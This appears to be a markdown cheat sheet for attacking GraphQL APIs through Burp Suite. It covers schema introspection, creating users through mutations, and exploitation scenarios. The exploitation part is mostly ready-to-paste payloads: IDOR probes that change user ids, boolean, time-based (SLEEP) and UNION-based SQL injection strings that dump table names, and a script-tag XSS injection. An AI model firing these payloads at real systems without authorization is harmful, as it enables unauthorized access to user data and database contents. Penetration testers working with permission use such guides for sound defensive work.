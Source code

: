 
# GraphQL Introspection

- As soon as you reach the GraphQL endpoint, paste this code: Go to GraphQL Introspection Code node.
- After that, go to [https://graphql-kit.com/graphql-voyager/](https://graphql-kit.com/graphql-voyager/) and paste the output you got from the code into the introspection section.
- Change Schema -> Introspection -> Paste (Paste introspection output).

**Note:** The usage in Burp Suite is different from using a GraphQL GUI website. On the website, you write the query like this:
```graphql
{
  users {
    id
    name
    email
  }
}
```
But in Burp Suite, everything has to be on the same line, and you separate fields like `id` and `name` with `\n`. Also, you must start the query with the word `query`, like this:
```json
{"query":"query { users { id\nname\nemail } }"}
```

# GraphQL Mutation

- Find the available mutation name. Usually, it will be something like: `createUser`, `registerUser`, or `signUp`.
- To find the mutation name, you need to write this code: Go to Mutation Code node.

Example:  
If you found a mutation called `createUser` and its input is `createUserInput`, you can write this code to know what fields are available:

```graphql
{
  __type(name: "createUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

Let’s assume the outputs are `name`, `email`, and `password`. We can write this code to add a user with those values:

```graphql
mutation {
  createUser(input: {name: "Ahmed", email: "ahmed@example.com", password: "123456"}) {
    users {
      id
      name
      email
    }
  }
}
```

In burp:
- Set the **Content-Type** header to: `application/json`
- Use this payload:
```json
{"query": "mutation { createUser(input: { name: \"Ahmed\", email: \"ahmed@example.com\", password: \"123456\" }) { id name email } }"}
```

Then check the response: If the server returns the requested data (like id, name, email), then the mutation worked successfully.

---

# GraphQL Exploitation scenarios

## Important notes:
- If you want to include quotation marks inside a string, you need to use `\"` instead of `"` to avoid conflicts.
- To add special characters like `"` or `\n`, use the backslash `\`.
- If the string inside the query contains quotation marks, escape them with `\`.

Example:
```json
{"query": "{ user(name: \"Exp8Bits\") { id name email } }"}
```

To add a new line:
```json
{"query": "{ user(id: 1) { name \n email } }"}
```

To include `\"` or `\`, escape it:
```json
{"query": "{ user(id: \"123\") { name email } }"}
```

---

## 1) Insecure Direct Object Reference (IDOR):

- Try to access another user's information by modifying the `id` or any identifier in the query.

Example:
```json
{"query":"{ user(id:2) { id name email } }"}
```

If you can see another user's data, it means the server is not performing proper authorization checks, which is an IDOR vulnerability.

---

## 2) SQL Injection:

- If the GraphQL query interacts with the database insecurely, you might retrieve or manipulate unauthorized data.

Original query:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Boolean-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' OR '1'='1\") { id name email } }"}
```

Time-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' AND IF(1=1, SLEEP(5), 0) --\") { id name email } }"}
```

Another Time-Based:
```json
{"query":"{ user(username: \"admin' and SLEEP(5) -- -\") {id} }"}
```

Union Injection (Burp Suite):
```json
{"query":"{ user(username: \"x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -\") {username} }"}
```

Browser/GUI version:
```graphql
{
  user(id: "1' OR '1'='1") {
    id
    name
    email
  }
}
```

---

## 3) Cross-Site Scripting (XSS):

- If the application reflects user input (like name, email), try injecting JavaScript code.

Original:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Injected:
```json
{"query":"{ user(id: \"<script>alert('XSS Attack!')</script>\") { id name email } }"}
```

If the server doesn’t sanitize output, the script will execute in the browser when the data is displayed.

